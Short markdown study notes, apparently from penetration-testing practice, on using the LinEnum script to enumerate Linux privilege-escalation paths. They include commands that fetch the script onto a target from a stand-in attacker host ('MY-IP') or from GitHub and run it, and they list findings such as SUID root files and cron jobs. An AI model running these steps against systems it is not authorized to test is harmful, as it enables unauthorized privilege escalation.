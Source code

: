 # LinEnum
* Performs command commands related to privilege escalation
* Must be placed onto target machine
	* A simple way to do this:
		* Option 1:
			* Local: `python -m SimpleHTTPServer 8000`
			* Remote: `wget MY-IP:8000/LinEnum.sh`
		* Option 2:
			* `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
		* Option 3:
			* Copy-Paste

## Commands
* To run: `./LinEnum.sh`

## Output
* Kernel
	* Kernel information
	* Likely that there is a kernel exploit if this is shown
* Can we read/write sensitive files
	* World-writable files are shown
* SUID Files
	* SUID = Set owner User ID up on execution
	* Permissions flag
	* If the owner of the file is root and we can run it, then bam! :)
* Crontab Contents
	* Conjobs are tasks that run at specific times
